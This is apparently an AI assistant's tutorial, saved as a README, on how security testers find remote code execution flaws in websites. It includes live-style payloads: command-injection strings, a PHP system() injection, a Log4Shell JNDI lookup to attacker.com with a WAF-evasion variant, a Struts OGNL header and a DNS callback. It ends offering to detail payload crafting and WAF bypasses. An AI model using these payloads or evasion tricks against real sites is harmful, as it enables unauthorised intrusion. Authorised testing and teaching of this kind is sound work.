 # RCE-vulnerabilities
Finding RCE vulnerabilities on websites is a complex and sensitive topic. As an AI, I can explain the general techniques and methodologies that security researchers and ethical hackers (with permission) use to identify such flaws. However, I must emphasize that attempting to find or exploit vulnerabilities on websites without explicit authorization is illegal and unethical—often violating laws like the Computer Fraud and Abuse Act (CFAA) in the U.S. or similar regulations elsewhere. Always get written permission from the website owner before testing, such as through a bug bounty program.

Here’s how professionals approach discovering RCE vulnerabilities responsibly:

---

### 1. **Understand the Target**
- **Reconnaissance**: Start by gathering info about the website—its tech stack (e.g., Apache, Nginx, PHP, Java), frameworks (e.g., WordPress, Django), and dependencies. Tools like Wappalyzer or manual inspection of HTTP headers can reveal this.
- **Scope**: Identify what’s testable (e.g., input fields, APIs, file uploads) where code might be executed.

### 2. **Look for Common Entry Points**
RCE often stems from mishandling user input. Focus on:
- **URL Parameters**: `example.com?page=malicious_code`
- **Form Inputs**: Text fields, search bars, or login forms.
- **File Uploads**: Check if uploaded files (e.g., images, PDFs) are executed rather than just stored.
- **HTTP Headers**: Some apps process headers like `User-Agent` unsafely.
- **APIs**: Test JSON/XML inputs for injection points.

### 3. **Test for Input Validation Flaws**
- **Command Injection**: If the site interacts with a server’s shell, try injecting system commands. For example, appending `; ls` or `&& dir` to an input might reveal if it’s executed (e.g., `ping 127.0.0.1; ls`).
- **Code Injection**: If it’s a PHP site, test for `eval()` or `system()` misuse by injecting `<?php system('id'); ?>` into a parameter.
- **Deserialization**: For Java-based sites, craft payloads (e.g., using ysoserial) to exploit insecure deserialization, like in Apache Struts or Log4j.

### 4. **Exploit Known Vulnerabilities**
- **Outdated Software**: Use tools like `nmap` or `whatweb` to detect versions of web servers, CMSes (e.g., WordPress), or libraries. Cross-reference with CVE databases (e.g., NIST NVD) for known RCE exploits.
- **Specific Exploits**: For example, test for Log4Shell by sending `${jndi:ldap://attacker.com/a}` to a loggable field if Log4j is suspected.

### 5. **Use Automated Tools (With Caution)**
- **Burp Suite**: Capture and manipulate HTTP requests to inject payloads and observe responses.
- **OWASP ZAP**: Scan for vulnerabilities, though it’s less specific to RCE.
- **sqlmap**: While primarily for SQL injection, it can sometimes chain into RCE if the database allows command execution.
- **Custom Scripts**: Write Python scripts with libraries like `requests` to fuzz inputs with RCE payloads (e.g., `; whoami`).

### 6. **Analyze Responses**
- **Direct Output**: If `id` returns `uid=33(www-data)`, you’ve got RCE.
- **Time Delays**: Use `sleep(10)` or `ping -c 10 127.0.0.1` to detect blind execution via timing differences.
- **DNS Requests**: Send a payload like `ping attacker-controlled-domain.com` and check DNS logs to confirm execution.

### 7. **Advanced Techniques**
- **Reverse Engineering**: If you can access server-side code (e.g., via a misconfigured endpoint), look for functions like `exec()`, `eval()`, or `Runtime.getRuntime().exec()` in Java.
- **Chaining Bugs**: Combine lesser flaws (e.g., file upload + local file inclusion) to achieve RCE. Example: Upload a malicious `.php` file, then trigger it via `include()`.

---

### Real-World Example Workflow
Imagine testing `example.com` (with permission):
1. Discover it runs an old Apache Struts version via HTTP headers.
2. Research CVE-2017-5638 (Struts RCE).
3. Craft a malicious `Content-Type` header: `Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].getWriter().print("test")}`.
4. Send it with Burp Suite. If "test" appears in the response, it’s vulnerable to RCE.

---

### Challenges and Tips
- **Obfuscation**: Modern sites use WAFs (e.g., Cloudflare) to block obvious payloads. Encode or split payloads (e.g., `${jndi:${lower:l}${lower:d}a${lower:p}://...}`).
- **False Positives**: A delay might not mean RCE—verify with multiple tests.
- **Ethics**: Report findings to the site owner immediately if part of a legal test.

### Tools Recap
- **Recon**: Wappalyzer, Shodan, `curl`
- **Testing**: Burp Suite, OWASP ZAP, `netcat`
- **Exploitation**: Metasploit (for known CVEs), custom scripts

---

This is a high-level overview of how pros hunt for RCEs. It requires technical skill, patience, and a legal framework (e.g., bug bounties on HackerOne or Bugcrowd). Want me to expand on a specific technique, like crafting payloads or bypassing WAFs? Just let me know!








